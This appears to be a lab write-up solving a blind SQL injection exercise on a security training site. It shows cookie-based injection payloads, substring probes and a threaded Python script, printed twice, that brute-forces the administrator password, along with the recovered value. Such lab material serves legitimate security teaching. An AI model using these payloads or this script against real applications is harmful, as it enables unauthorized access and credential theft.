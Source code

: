 # Lab: Blind SQL injection with conditional responses
## Task
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solution
As this application uses the `TrackingId` cookie to track users and that cookie relates to the SQL database. Therefore, we can exploit this to retrieve the `administrator` user's password.  
First, we need to make sure that it is indeed vulnerable by injecting:  
```
' AND 1=1--
```  

![image](https://user-images.githubusercontent.com/44528004/130160864-87927571-3ac9-4322-aed2-a78b50fdf6e2.png)  

As the result, it is vulnerable.  

Next, we find the length of the password:  
```
' AND LENGTH((SELECT password FROM users WHERE username='administrator'))=20--
```  

![image](https://user-images.githubusercontent.com/44528004/130160917-2559f3dd-6a7a-43ba-b82c-ce2b017c034f.png)  

Now, we know that the password is 20-character long.  

Then, we start to discover each letter of password:  
```
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a'--
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='b'--
...
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='a'--
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='b'--
...
```

Script:  
```python
import requests
import re
import string
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac161faf1f29b01d80c9fcdb00be0028.web-security-academy.net/filter?category=Pets'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        COOKIES =  {'TrackingId':f"B3cN9MgnWyqEImur'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}'--",
        'session':'0WJRV2KyH9TczDNShSpbiuxIimbJjtkv'}
        resp = requests.get(URL, cookies=COOKIES)
        if re.search('Welcome back!', resp.text):
            return (i, j)

res = []
with ThreadPoolExecutor(max_workers=10) as executor:
    tasks = []
    for i in range(1, 21):
        tasks.append(executor.submit(brute, i))
    for f in futures.as_completed(tasks):
        res.append(f.result())

res = sorted(res, key=lambda x: x[0])
print(''.join([x[1] for x in res]))
import requests
import re
import string
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac161faf1f29b01d80c9fcdb00be0028.web-security-academy.net/filter?category=Pets'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        COOKIES =  {'TrackingId':f"B3cN9MgnWyqEImur'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}'--",
        'session':'0WJRV2KyH9TczDNShSpbiuxIimbJjtkv'}
        resp = requests.get(URL, cookies=COOKIES)
        if re.search('Welcome back!', resp.text):
            return (i, j)

res = []
with ThreadPoolExecutor(max_workers=10) as executor:
    tasks = []
    for i in range(1, 21):
        tasks.append(executor.submit(brute, i))
    for f in futures.as_completed(tasks):
        res.append(f.result())

res = sorted(res, key=lambda x: x[0])
print(''.join([x[1] for x in res]))
```

```
(env) PS E:\CTF> py .\intruder.py
pfp9jezkril5vmp86w69
```

Login:  

![image](https://user-images.githubusercontent.com/44528004/130164204-0a1a2478-35e9-42f1-836f-6717d8ee1199.png)  
> Solved!
